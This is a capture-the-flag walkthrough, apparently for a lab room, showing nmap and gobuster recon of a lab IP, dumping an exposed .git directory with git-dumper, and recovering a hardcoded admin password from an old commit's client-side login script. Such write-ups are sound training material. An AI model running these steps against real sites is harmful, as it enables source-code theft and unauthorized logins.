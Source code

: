# recon
# nmap
```
80/tcp open  http
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-01 16:58 EDT
Nmap scan report for 10.10.74.55
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.74.55:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
```
as you can see, nmap found `.git/`
# gobuster
- `/dashboard.html` (Status: 200)

I see the page by using burp-suit. Normaly the web page going to redirect yo to `/index.html`. With burp-suit you can catch and not forward the redirect traffic. In this way you can annaly the page. But that is not the point, The goal of this room is get admin password
- `/index.html` (Status: 200)


# git-dumper
dump `.git` so we can annalyze it on kali
```console
$ ./git-dumper http://$IP/ /dump/it
```
now move to the directoy and run ```git log``` to read logs. to see more output in git console press `D`
```
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isn't enough.
    
    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.
    
    Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

commit 2f423697bf81fe5956684f66fb6fc6596a1903cc
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Mon Jul 20 20:46:28 2020 +0000

    Initial commit
```
by examine the logs you will find an interesting commit with the message `Made the login page, boss!`. To check the change on that commin run `git show <commitid>`

```console
git show 395e087334d613d5e423cdf8f7be27196a360459
```
now let looks for password 
```
 <script>
+      function login() {
+        let form = document.getElementById("login-form");
+        console.log(form.elements);
+        let username = form.elements["username"].value;
+        let password = form.elements["password"].value;
+        if (
+          username === "admin" &&
+          password === "T_________________P4ssw0rd!"
+        ) {
```